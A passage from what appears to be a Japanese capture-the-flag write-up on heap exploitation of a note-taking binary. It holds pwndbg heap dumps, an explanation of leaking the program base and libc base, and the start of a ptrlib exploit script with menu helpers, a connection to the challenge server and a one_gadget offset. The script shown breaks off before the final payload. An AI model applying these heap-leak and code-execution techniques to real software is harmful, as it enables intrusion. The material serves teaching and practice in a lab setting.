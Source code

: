 ```
0x7f25ef42a280:	0x00007f25ef42a2c0	0x0000000000000031
0x7f25ef42a290:	0x00007f25ef420041	0x0000000000000000
0x7f25ef42a2a0:	0x00007f25eecab080	0x00007f25ef42a260
...
```
~~したがって、heap+0x18を指すcontentが入った偽チャンクを作れば良いです。~~
嘘です。
さらにチャンクをmallocするので次の状態になります。
```
pwndbg> x/32xg 0x7f1789b68260
0x7f1789b68260:	0x00007f1789003258	0x0000000000000000
0x7f1789b68270:	0x00007f1789b68290	0x00007f1789b682f0
0x7f1789b68280:	0x00007f1789b682c0	0x0000000000000031
0x7f1789b68290:	0x00007f1789b60041	0x0000000000000000
0x7f1789b682a0:	0x00007f17898e9080	0x00007f1789b68260
0x7f1789b682b0:	0x00007f1789b682f0	0x0000000000000031
0x7f1789b682c0:	0x0000000000000059	0x0000000000000000
0x7f1789b682d0:	0x00007f1789b682f0	0x00007f17898e9080
0x7f1789b682e0:	0x00007f1789b68278	0x0000000000000031
```
したがって、0x78足した場所が正解です。
proc baseが求まるとGOTのアドレスが分かるので、同様にしてlibc baseをリークします。
こっちはちょこまか場所が変わらないので簡単ですね。

とりあえずここまでのコード：
```python
from ptrlib import *

def create(title):
    sock.recvuntil("Choice: ")
    sock.sendline("1")
    sock.recvuntil("Title: ")
    sock.sendline(title)

def write(title, size, data):
    sock.recvuntil("Choice: ")
    sock.sendline("2")
    sock.recvuntil("content: ")
    sock.sendline(title)
    sock.recvuntil("content: ")
    sock.sendline(str(size))
    sock.recvuntil("Content: ")
    sock.sendline(data)

def show(title):
    sock.recvuntil("Choice: ")
    sock.sendline("3")
    sock.recvuntil("content: ")
    sock.sendline(title)
    return sock.recvline().rstrip()

def delete(title):
    sock.recvuntil("Choice: ")
    sock.sendline("4")
    sock.recvuntil("delete: ")
    sock.sendline(title)

libc = ELF("./libc.so.6")
elf = ELF("./note")
#sock = Process("./note")
#sock = Socket("localhost", 4001)
sock = Socket("problem.harekaze.com", 20003)
one_gadget = 0x106ef8

```